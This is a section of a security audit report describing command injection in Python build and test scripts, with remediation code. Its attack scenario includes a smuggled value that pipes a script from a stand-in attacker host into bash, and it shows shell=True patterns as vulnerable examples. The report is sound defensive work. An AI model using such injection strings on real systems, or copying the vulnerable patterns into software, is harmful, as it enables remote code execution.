 
### 7. COMMAND INJECTION VULNERABILITIES IN BUILD/TEST SCRIPTS

**CVSS Score:** 8.8 (HIGH)
**CWE:** CWE-78 (OS Command Injection)

**Affected Files (20+ instances):**
```
build.py - subprocess calls with shell=True
setup_rust.py - os.system() usage
run_tests.py - subprocess.run() with user input
benchmark_frameworks.py - subprocess.Popen() with shell=True
```

**Vulnerability Details:**
Multiple build and test scripts use dangerous subprocess patterns:
```python
# VULNERABLE PATTERN
os.system(f"pip install {package_name}")  # Command injection
subprocess.run(f"pytest {test_path}", shell=True)  # Shell injection
```

**Risk Assessment:**
While these are development scripts, they pose risks:
- **CI/CD pipeline exploitation** if attacker controls input
- **Supply chain attacks** via malicious package names
- **Developer workstation compromise** if scripts run untrusted input

**Attack Scenario:**
```python
# Attacker-controlled input
malicious_package = "requests; curl attacker.com/backdoor.sh | bash"

# Vulnerable code
os.system(f"pip install {malicious_package}")

# Executes:
# pip install requests; curl attacker.com/backdoor.sh | bash
```

**Remediation:**

**BEFORE (Vulnerable):**
```python
import os
os.system(f"pip install {package}")  # VULNERABLE
```

**AFTER (Secure):**
```python
import subprocess

# Use list-based arguments - NO SHELL
subprocess.run(
    ['pip', 'install', package],
    check=True,
    capture_output=True,
    text=True,
    timeout=300  # Prevent hanging
)

# Validate input before subprocess
def validate_package_name(name: str) -> str:
    """Validate package name against PyPI naming rules."""
    import re
    if not re.match(r'^[a-zA-Z0-9][-a-zA-Z0-9_.]*$', name):
        raise ValueError(f"Invalid package name: {name}")
    return name
```